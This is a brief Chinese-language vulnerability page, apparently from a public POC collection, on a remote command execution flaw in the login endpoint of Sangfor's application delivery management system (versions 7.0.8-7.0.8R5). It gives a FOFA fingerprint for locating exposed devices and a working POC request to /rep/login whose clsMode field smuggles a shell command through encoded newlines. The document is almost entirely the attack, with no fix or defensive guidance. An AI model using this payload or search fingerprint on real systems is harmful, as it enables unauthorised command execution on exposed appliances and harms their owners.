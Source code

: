 # 深信服 应用交付管理系统 login 远程命令执行漏洞

## 影响版本

<a-checkbox checked>深信服 应用交付管理系统 7.0.8-7.0.8R5</a-checkbox></br>

## 资产搜索

<a-checkbox checked>fid="iaytNA57019/kADk8Nev7g=="</a-checkbox></br>
![img](../yyjf_index.png)

## POC

```plain
POST /rep/login 

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```
![img](../yyjf_poc.png)